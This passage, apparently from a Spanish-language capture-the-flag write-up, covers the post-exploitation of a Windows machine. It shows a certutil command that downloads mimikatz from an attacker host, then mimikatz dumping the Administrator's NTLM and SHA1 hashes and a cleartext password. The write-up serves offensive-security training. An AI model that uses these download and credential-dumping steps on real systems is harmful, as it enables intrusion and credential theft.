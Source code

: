 ```
C:\Windows\Temp\PostExploitation> certutil.exe -urlcache -split -f http://10.10.16.23/mimikatz.exe
****  Online  ****
  000000  ...
  62826f
CertUtil: -URLCache command completed successfully.
```

`Ejecutamos` el `binario` y nos `dumpeamos` la `contraseña` del `login` [https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#counteracting-sedebugprivilege-removal](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#counteracting-sedebugprivilege-removal)

```
C:\Windows\Temp\PostExploitation>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 437201 (00000000:0006abd1)
Session           : Interactive from 0
User Name         : Administrator
Domain            : haris-PC
Logon Server      : HARIS-PC
Logon Time        : 12/08/2024 00:37:01
SID               : S-1-5-21-319597671-3711062392-2889596693-500
	msv :	
	[00010000] CredentialKeys
	* NTLM     : cdf51b162460b7d5bc898f493751a0cc
	* SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
	[00000003] Primary
	* Username : Administrator
	* Domain   : haris-PC
	* NTLM     : cdf51b162460b7d5bc898f493751a0cc
	* SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
	tspkg :	
	wdigest :	
	* Username : Administrator
	* Domain   : haris-PC
	* Password : ejfnIWWDojfWEKM
	kerberos :	
	* Username : Administrator
	* Domain   : haris-PC
	* Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 12/08/2024 00:36:19
SID               : S-1-5-19
	msv :	
```